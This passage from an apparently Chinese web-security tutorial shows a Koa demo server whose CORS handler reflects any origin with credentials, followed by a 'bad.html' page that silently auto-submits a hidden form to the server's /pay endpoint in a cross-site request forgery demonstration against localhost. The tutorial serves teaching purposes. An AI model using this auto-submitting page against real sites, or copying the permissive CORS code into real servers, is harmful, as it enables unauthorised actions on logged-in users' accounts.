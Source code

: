 ```
            msg: '未登录'
        };
    }
}
// 处理 options 请求
app.use((ctx, next)=> {
    const headers = ctx.request.headers;
    if(ctx.method === 'OPTIONS') {
        ctx.set('Access-Control-Allow-Origin', headers.origin);
        ctx.set('Access-Control-Allow-Headers', 'Content-Type');
        ctx.set('Access-Control-Allow-Credentials', 'true');
        ctx.status = 204;
    } else {
        next();
    }
})

app.use(cors());
app.use(route.post('/login', login));
app.use(route.post('/pay', pay));
app.use(route.get('/pay', pay));
app.use(route.post('/isLogin', isLogin));

app.listen(3200, () => {
    console.log('启动成功');
});

```

执行 `nodemon server.js`，访问页面 `http://127.0.0.1:3200/client.html`

![](https://segmentfault.com/img/remote/1460000022842880)

登陆完成之后，可以看到 Cookie 是种到 `http://127.0.0.1:3200` 这个域下面的。

第三方页面 bad.html

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta >
    <title>第三方网站</title>
</head>
<body>
    <div>
        哈哈，小样儿，哪有赚大钱的方法，还是踏实努力工作吧！
        <!-- form 表单的提交会伴随着跳转到action中指定 的url 链接，为了阻止这一行为，可以通过设置一个隐藏的iframe 页面，并将form 的target 属性指向这个iframe，当前页面iframe则不会刷新页面 -->
        <form action="http://127.0.0.1:3200/pay" method="POST" class="form" target="targetIfr" style="display: none">
            <input type="text" >
            <input type="text" >
        </form>
        <iframe ></iframe>
    </div>
</body>
<script>
    document.querySelector('.form').submit();
</script>
</html>


```